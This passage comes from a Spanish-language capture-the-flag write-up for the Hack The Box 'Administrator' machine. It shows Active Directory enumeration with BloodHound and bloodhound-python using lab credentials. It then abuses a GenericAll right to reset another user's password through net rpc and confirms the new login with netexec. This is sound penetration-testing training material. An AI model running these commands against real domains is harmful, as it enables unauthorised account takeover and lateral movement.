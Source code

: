 - Levantamos neo4j

``sudo neo4j start``

![Pasted image 20250407125334](https://github.com/user-attachments/assets/16a19fdb-082e-491d-9458-fd07a277e046)

- Levantamos bloodhound

``bloodhound --no-sandbox &>/dev/null & disown``

- Introducimos nuestras credenciales de neo4j.

- Enumeramos el dominio con BloodHound-Python:

``bloodhound-python -u 'olivia' -p 'ichliebedich' -d administrator.htb -c all -ns 10.10.11.42``

![Pasted image 20250407125531](https://github.com/user-attachments/assets/2548e5cb-dc1c-47b1-858a-acb8198f0e87)

- Una vez hemos recolectado la información y la tenemos en los archivos .json generados, los subimos a su interfaz gráfica:

![Pasted image 20250313132148](https://github.com/user-attachments/assets/36620eb5-f1ee-4477-b027-4bec66481734)

- Marcamos como owned al usuario olivia porque tenemos sus credenciales.

Empezamos a darle uso a BloodHound.

Por ejemplo, si observamos la información del usuario Olivia: tiene GenericAll sobre el usuario Michael.

![Pasted image 20250407125924](https://github.com/user-attachments/assets/9e71d1fc-a999-46b5-b3d3-d3e9d4c15b82)

![Pasted image 20250407125933](https://github.com/user-attachments/assets/81bb4dc7-ee0e-49e8-aaeb-1866dd11d777)

Entre otras cosas, lo que podemos hacer es cambiar su contraseña.

``net rpc password michael -U 'olivia' -S 10.10.11.42``

-> Introducimos nueva contraseña para michael: test123!

-> Introducimos la contraseña de olivia (ichliebedich)

![Pasted image 20250407133757](https://github.com/user-attachments/assets/80a80a84-379c-4183-9696-85c1f8902ccc)


- Comprobamos con netexec que, efectivamente, se ha cambiado la contraseña del usuario michael:

``netexec smb 10.10.11.42 -u 'michael' -p 'test123!'``

![Pasted image 20250407133851](https://github.com/user-attachments/assets/023fc735-de92-4aff-b001-372e7c7d53e9)

Estupendo, hemos cambiado la contraseña del usuario Michael. Marcamos en BloodHound al usuario Michael como owned.


¿Podemos conectarnos con evil-winrm? Vamos a comprobar si el usuario michael forma parte del grupo RemoteManagementUser:

![Pasted image 20250407133932](https://github.com/user-attachments/assets/e2de7ab3-bd66-47f1-9dad-82e89217f4b9)
